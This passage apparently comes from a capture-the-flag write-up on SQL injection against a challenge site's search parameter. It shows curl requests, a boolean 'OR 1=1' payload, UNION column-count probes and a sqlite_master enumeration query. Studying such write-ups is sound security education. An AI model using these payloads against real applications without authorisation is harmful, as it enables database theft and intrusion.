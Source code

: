 ### Initial Testing

```bash
# Testing for SQL injection with a simple quote
curl -s "http://challs.0x4m4.com:8002/?search='"
```

This triggered a database error, confirming that user input was being directly inserted into SQL queries without proper sanitization.

The error message revealed:
- The application uses SQLite database
- User input is directly concatenated into SQL queries
- No input validation or parameterization is implemented

## Exploitation Phase 1: Confirming the Vulnerability

### Basic SQL Injection Test

First, I confirmed the SQL injection vulnerability with a simple boolean test:

```sql
x' OR '1'='1
```

```bash
curl -s "http://challs.0x4m4.com:8002/?search=x'+OR+'1'%3D'1"
```

This payload returned all records in the database, confirming the vulnerability and revealing the structure of the dissidents table.

### Determining Column Count

To perform UNION-based attacks, I needed to determine the number of columns in the original query:

```sql
' UNION SELECT NULL--
' UNION SELECT NULL, NULL--
' UNION SELECT NULL, NULL, NULL--
' UNION SELECT NULL, NULL, NULL, NULL--
' UNION SELECT NULL, NULL, NULL, NULL, NULL--
```

Testing revealed that the query has 5 columns, allowing for successful UNION attacks.

## Exploitation Phase 2: Database Enumeration

### Discovering Database Structure

Using SQLite's `sqlite_master` table to enumerate all tables in the database:

```sql
' UNION SELECT 1, name, sql, 'LOW', type FROM sqlite_master WHERE type='table'--
```
